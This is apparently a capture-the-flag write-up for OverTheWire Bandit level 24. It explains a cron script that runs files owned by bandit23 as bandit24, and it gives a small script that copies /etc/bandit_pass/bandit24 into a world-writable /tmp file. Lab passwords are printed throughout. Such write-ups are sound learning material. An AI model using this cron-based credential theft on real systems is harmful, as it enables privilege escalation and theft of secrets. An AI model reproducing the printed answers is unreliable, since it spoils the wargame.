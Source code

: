 # ![](https://overthewire.org/img/domokitten.png)

# Bandit_Level24

## Source:
- [Bandit_Level24] - The topic of Bandit, Level24.
- [Crontab] - Thoery about cron and cronjob.
### I. Connect:
```sh
ssh -p 2220 bandit23@bandit.labs.overthewire.org
Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
###
### II. My Solution:
- Simmilar to Level23, Read `cronjob_bandit24`: `cat cronjob_bandit24` -> Output:
```sh
@reboot bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
```

####
- Read `cronjob_bandit24.sh` : `cat /usr/bin/cronjob_bandit24.sh`
```sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```
- When cronjob_bandit24.sh is run as user bandit24, myname="bandit24"
- Then `cd /var/spool/bandit24/foo`
- `for i in * .*;` : check all files in foo.
- `if [ "$i" != "." -a "$i" != ".." ];` : if $i or that file doesn't have name "." or "..".
- Then owner = user who own the file is being checked.
- If the owner == bandit23 then execute and delete that file.

####
- To pass this level:
  - Create a location in `/tmp` directory: mkdir /tmp/new_file
  - Change permission for it: chmod 777 /tmp/new_file
  - Get acess to `new_file`: `cd /tmp/new_file`.
  - Create two file: one is .sh file and another one is a normal text file: `touch pass` and `touch bandit24_run.sh`
  - Change permission for them: `chmod 777 pass` and `chmod 755 bandit24_run.sh`
  - Edit file bandit24_run.sh: `nano bandit24_run.sh`
  ```sh
  #!/bin/bash
  cat /etc/bandit_pass/bandit24 >&/tmp/new_file/pass #copy bandit24's password into file pass
  ```
  - Check again: `ls -la`
  ```sh
  total 10568
  drwxrwxrwx   2 bandit23 bandit23     4096 Aug 24 16:58 .
  drwxrwx-wt 297 root     root     10801152 Aug 24 17:15 ..
  -rwxr-xr-x   1 bandit23 bandit23       64 Aug 24 16:58 bandit24_run.sh
  -rwxrwxrwx   1 bandit23 bandit23       33 Aug 24 17:00 pass
  ```
  - Because "Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…"
  - So `cp bandit24_run.sh /var/spool/bandit24/foo/bandit24_run.sh`
  - Then, finally check the pass file: `cat /tmp/new_file/pass`

###
### III. Result:
Password for next level: `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`


[Bandit_Level24]: <https://overthewire.org/wargames/bandit/bandit22.html>
[Crontab]: <https://vietnix.vn/crontab/>